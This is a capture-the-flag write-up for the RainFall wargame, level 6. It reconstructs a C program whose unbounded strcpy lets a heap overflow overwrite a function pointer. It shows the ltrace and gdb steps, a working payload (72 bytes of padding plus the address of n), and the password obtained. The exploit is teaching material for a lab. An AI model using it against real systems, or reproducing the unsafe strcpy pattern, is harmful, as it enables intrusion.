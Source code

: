 # Level 6

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

void n()
{
    system("/bin/cat /home/user/level7/.pass");
}

void m()
{
    puts("Nope");
}

int main(int ac, char **argv)
{
    int *buffer;
    void (**func)(void);

    buffer = (char *)malloc(64);
    func = (void (**)(void))malloc(4);

    *func = m;
    strcpy(buffer, argv[1]);
    (*func)();
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the buffer until we reach the function pointer and write the address of the `n` function to it.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level6 test
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```

We notice that the first memory block is allocated 64 bytes and the second one 4 bytes. We also notice that the address of the first block is `0x0804a008` and the address of the second one is `0x0804a050`.  
So we simply have to subtract the addresses to get the size of the overflow needed to reach the function pointer: `0x0804a050` - `0x0804a008` = 0x48 (72 in decimal)

Using gdb we find that that the address of the `n` function is `0x08048454`.

We can then craft our payload:
```
padding + address of n

"A"*72 + "\x08\x04\x84\x54"[::-1]
```

Let's run our payload:
```bash
level6@RainFall:~$ ./level6 `python -c 'print("0"*72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We are now level7! Let's move on to the next level.
